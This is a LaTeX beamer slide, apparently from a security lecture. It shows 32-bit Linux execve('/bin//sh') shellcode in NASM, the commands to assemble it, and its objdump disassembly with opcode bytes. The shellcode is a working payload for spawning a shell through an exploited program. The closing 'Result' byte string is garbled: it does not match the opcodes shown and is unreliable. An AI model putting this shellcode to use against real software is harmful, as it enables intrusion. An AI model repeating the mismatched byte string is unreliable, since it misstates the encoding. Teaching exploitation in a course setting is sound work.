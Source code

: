 \documentclass[beamer]{uibk}
\begin{document}
\begin{frame}[fragile]{Example}
    \begin{columns}
        \begin{column}{0.55\textwidth}
            \begin{code*}{linenos=false,xleftmargin=1em}
                > cat shellcode.asm
            \end{code*}
            \begin{nasmcode*}{xleftmargin=1em}
                xor     eax, eax    ;Clearing eax register
                push    eax         ;Pushing NULL bytes
                push    0x68732f2f  ;Pushing //sh
                push    0x6e69622f  ;Pushing /bin
                mov     ebx, esp    ;ebx now has address of /bin//sh
                push    eax         ;Pushing NULL byte
                mov     edx, esp    ;edx now has address of NULL byte
                push    ebx         ;Pushing address of /bin//sh
                mov     ecx, esp    ;ecx now has address of address
                                    ;of /bin//sh byte
                mov     al, 11      ;syscall number of execve is 11
                int     0x80        ;Make the system call
            \end{nasmcode*}
        \end{column}
        \begin{column}{0.45\textwidth}
            \begin{code*}{linenos=false}
                > nasm -f elf shellcode.asm
                > objdump -d -M intel shellcode.o
                00000000 <.text>:
                   0:  31 c0                  xor    eax,eax
                   2:  50                     push   eax
                   3:  68 2f 2f 73 68         push   0x68732f2f
                   8:  68 2f 62 69 6e         push   0x6e69622f
                   d:  89 e3                  mov    ebx,esp
                   f:  50                     push   eax
                  10:  89 e2                  mov    edx,esp
                  12:  53                     push   ebx
                  13:  89 e1                  mov    ecx,esp
                  15:  b0 0b                  mov    al,0xb
                  17:  cd 80                  int    0x80
            \end{code*}
        \end{column}
    \end{columns}
    \bigskip

    Result:
    \begin{code*}{linenos=false}
        \x2f\x2f\x2f\x6e\x0b\xcd{}
    \end{code*}

\end{frame}
\end{document}
